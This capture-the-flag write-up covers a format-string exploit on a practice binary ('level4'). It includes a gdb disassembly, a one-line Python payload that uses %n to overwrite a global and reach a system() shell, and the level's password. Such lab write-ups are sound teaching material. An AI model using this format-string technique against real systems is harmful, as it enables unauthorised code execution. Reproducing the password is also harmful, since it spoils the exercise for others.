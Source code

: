 We notice that this level looks a lot like the previous one.

We notice that the `p` function contains a printf on which we can do a format string exploit, and that the `n` function contains an `if ` condition that opens a shell. 

To enter in this condition, we have to pass the value `0x1025544`, which makes 16930116 in decimal.

We look in gdb to see where to write :

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	    push   %ebp
   0x08048458 <+1>:	    mov    %esp,%ebp
   0x0804845a <+3>:	    sub    $0x218,%esp
   0x08048460 <+9>:	    mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

Right before the `CMP` operation, we have this line that assignes a value to `eax` :

`  0x0804848d <+54>:	mov    0x8049810,%eax`

`0x8049810` is the address where we have to write.

We write our exploit : 

`(python -c 'print "\x10\x98\x04\x08%16930112x%12$n"') | ./level4`


The address where we want to write + the padding of 16930116 - 4 bytes of the address + writing this in the 12th argument

The pass is : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`